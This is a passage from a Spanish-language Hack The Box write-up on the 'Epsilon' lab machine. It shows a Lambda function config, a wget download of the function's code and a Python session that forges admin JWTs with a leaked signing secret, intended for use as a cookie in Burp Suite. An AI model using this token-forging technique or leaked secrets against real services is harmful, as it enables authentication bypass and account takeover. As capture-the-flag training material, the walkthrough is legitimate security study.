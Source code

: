 ```bash
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "01728ab1-232d-4d11-87dd-29315a83fdc2",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code"
    },
    "Tags": {}
}
```

Si le damos a http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code nos baja un archivo. Lo voy a decargar dentro de mis evidencias

wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
unzip code.zip

Una vez que tenemos el secret podemos crear el jwt. Creo que con jwt.encode primero será suficiente pero voy a probar con admin porque lo vi en alguna parte de las evidencias.

```python
python3
Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> secret = "RrXCv`mrNe!K!4+5`wYq"
>>> jwt.encode({"username":"0xdf"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE'
>>> jwt.encode({"username":"admin"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
>>> jwt.encode({"username":"admin", "password":"admin"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiJ9.epQK9DdQ_jLPM7pFZ2AJLfsv4LbS-F9FxWvL6VIoWRY'
```
vimos lo de admin como nombre aquí:

![](assets/2022-06-30-12-39-49.png)

Ahora vamos a ir a burpsuite a poner el auth a ver que pasa... ¿Por qué auth? 

![](assets/2022-06-30-12-41-00.png)

## modificar una cookie con los valores que necesitamos
